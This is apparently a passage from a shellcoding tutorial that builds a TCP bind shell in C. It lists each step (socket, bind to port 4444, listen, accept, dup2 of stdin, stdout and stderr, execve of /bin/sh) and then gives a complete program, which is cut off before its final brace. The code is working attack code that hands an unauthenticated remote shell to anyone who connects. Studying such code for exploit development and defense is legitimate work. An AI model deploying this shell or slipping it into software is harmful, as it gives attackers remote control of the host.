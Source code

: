 Once I figured out which C functions I needed, I then had to figure out how to replace them with Linux System-Calls.  

## Required C Funtions & Execution Flow
1. Create a new Socket.  
```c
int ipv4Socket = socket(AF_INET, SOCK_STREAM, 0);
```
2. Create a TCP-IP Address for the Socket.  
```c
struct sockaddr_in ipSocketAddr = { 
  .sin_family = AF_INET,
  .sin_port = htons(4444),
  .sin_addr.s_addr = htonl(INADDR_ANY)
};
```
3. Bind the TCP-IP Address to the Socket.  
```c
bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
```
4. Listen for incoming connections on the TCP-IP Socket.  
```c
listen(ipv4Socket, 0);
```
5. Accept the incoming connections, on the TCP-IP Socket, and create a new connected session.  
```c
int clientSocket = accept(ipv4Socket, NULL, NULL);
```
6. Transfer Standard-Input, Standard-Output, and Standard-Error to the connected session.  
```c
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```
7. Spawn a `/bin/sh` shell for the client, in the connected session.
```c
execve("/bin/sh", NULL, NULL);
```

## Creating a TCP Bind Shell in C
This is our C program to create a TCP Bind Shell.  

```c
// Filename: basicBindShell.c
// Author:   boku
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h> /* superset of previous */
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in ipSocketAddr = {
    .sin_family = AF_INET,
    .sin_port = htons(4444),
    .sin_addr.s_addr = htonl(INADDR_ANY)
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/sh", NULL, NULL);
```
